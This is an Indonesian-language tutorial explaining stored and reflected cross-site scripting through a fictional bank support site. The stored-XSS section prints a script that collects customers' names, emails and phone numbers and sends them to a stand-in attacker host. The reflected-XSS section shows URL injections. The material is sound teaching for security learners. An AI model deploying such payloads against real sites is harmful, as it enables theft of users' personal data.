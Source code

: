 # Web Exploitation

![web-ex](img/web-exploitation.jpg)

Web Exploitation adalah sebuah kegiatan melakukan serangan terhadap suatu website. Serangan tersebut memiliki tujuan yang bermacam-macam mulai dari untuk mencuri data berharga, mengekploitasi resource dari web itu, sampai dengan melakukan testing keamanan suatu sistem. Ada bermacam-macam teknik yang bisa dilakukan untuk melakukan serangan terhadap suatu website.

## Cross-Site Scripting (XSS)
Serangan Cross-Site Scripting (XSS) dilakukan berdasarkan fakta bahwa suatu aplikasi web akan mengeksekusi script di browser dari user.

Serangan XSS sendiri memiliki beberapa kategori, dengan tiga kategori paling umum adalah :
- Stored (Kode disimpan di database sebelum dieksekusi)
- Reflected (Kode tidak disimpan di database, tetapi direfleksikan oleh server)
- DOM-based (Kode disimpan dan dieksekusi di browser)

### Stored XSS
Stored XSS mungkin adalah serangan XSS yang paling umum. Serangan ini cukup menarik karena biasanya merupakan XSS yang paling mudah dilacak, tetapi terkadang bisa menjadi salah satu yang paling berbahaya karena seringkali bisa memengaruhi banyak user.

![stored-xss](img/stored-xss.png)
*Salah satu contoh langkah-langkah serangan Stored-XSS*

Objek yang disimpan ke database bisa dilihat banyak user, di beberapa kasus semua user bisa terkena serangan ini jika objek global yang terinfeksi.

#### Sedikit contoh :
Ada suatu perusahaan yang memiliki website. Website tersebut menyediakan layanan keluhan pelanggan. Ada suatu pelanggan yang ingin membuat keluhan dengan isi seperti berikut :

```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Karena sang pelanggan ingin menegaskan suatu kalimat dan tidak ada fitur untuk bold di layanan keluhan tersebut, karena pelanggan tersebut seorang programmer maka sang pelanggan mencoba menggunakan tag `<strong></strong>` untuk mendapatkan font yang ter-bold. Sehingga pesannya menjadi :
```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
<strong>Please improve your web application.</strong>
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Lalu tak lama CS dari perusahaan tersebut menjawab dengan pesan :
```
Hello, I am Sam with MegaBank support.
I am sorry you are unhappy with our application.
We have a scheduled update next month on the fourth that should increase the speed
at which deposits are reflected in our app.
By the way, how did you bold that text?
—Sam from Customer Support, support.mega-bank.com
```
Dari sini dapat diketahui bahwa input dari fitur tersebut tidak memiliki filter untuk tag html. Maka sang pelanggan tadi dapat melancarkan serangan dengan pesan seperti ini :
```javascript
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
<script>
/*
* Get a list of all customers from the page.
*/
const customers = document.querySelectorAll('.openCases');
/*
* Iterate through each DOM element containing the openCases class,
* collecting privileged personal identifier information (PII)
* and store that data in the customerData array.
*/
const customerData = [];
customers.forEach((customer) => {
    customerData.push({
        firstName: customer.querySelector('.firstName').innerText,
        lastName: customer.querySelector('.lastName').innerText,
        email: customer.querySelector('.email').innerText,
        phone: customer.querySelector('.phone').innerText
    });
});
/*
* Build a new HTTP request, and exfiltrate the previously collected
* data to the hacker's own servers.
*/
    const http = new XMLHttpRequest();
    http.open('POST', 'https://steal-your-data.com/data', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.send(JSON.stringify(customerData);
</script>
—Unhappy Customer, support.mega-bank.com
```
Di pesan tersebut sang pelanggan menyisipkan script untuk mendapat data pelanggan di aplikasi tersebut.

### Reflected XSS
Reflected XSS beroperasi dengan cara yang mirip dengan Stored XSS, tetapi script tidak disimpan ke suatu database. Reflected XSS berefek ke kode dari client di browser langsung tanpa bergantung pada server untuk menyampaikan pesan dengan script untuk dieksekusi.

![reflected-xss](img/reflected-xss.png)
*Salah satu contoh Reflected-XSS*

Karena tidak disimpan di database, Reflected XSS lebih susah dipahami daripada Stored XSS. Mari kita mulai dari contoh sederhana :

#### Contoh :
Kembali lagi ke perusahaan tadi. Website perusahaan tersebut menyediakan search bar dan kita bisa mencari solusi dari keluhan kita di search bar tersebut. Seorang pelanggan yang juga seorang programmer menggunakan fungsi tersebut. Lalu dia melihat URL dari website tersebut menjadi `support.mega-bank.com/search?query=open+savings+account`.

Lalu ia mencoba mengganti parameter query di URL tersebut menjadi `support.mega-bank.com/search?query=open+check‐
ing+account` dan hasil dari pencarian tersebut berisi solusi yang berhubungan dengan open checking account.

Seperti pelanggan sebelumnya, pelanggan ini mencoba agar input yang ia masukkan ter-bold, maka ia menggunakan URL `support.mega-bank.com/search?query=open+<strong>checking</strong>
+account` dan yang mengejutkan hasil di halaman tersebut ikut ter-bold.

Sekarang pelanggan tersebut bisa menyisipkan script ke URL tersebut seperti `support.mega-bank.com/search?query=open+<script>alert(test);</
script>checking+account` dan akan mengeluarkan alert di halaman hasil pencarian.

Script tersebut pastinya tidak disimpan di server dan server akan membaca dan mengembalikan script itu ke client. Inilah yang disebut Reflected-XSS. Contoh tersebut membutuhkan URL sehingga hacker mudah untuk membagikannya. Sebagian besar Reflected-XSS tidak mudah didistribusikan dan mungkin memerlukan end-user untuk melakukan tindakan tambahan seperti pasting Javascript ke suatu web form.

### DOM-Based XSS
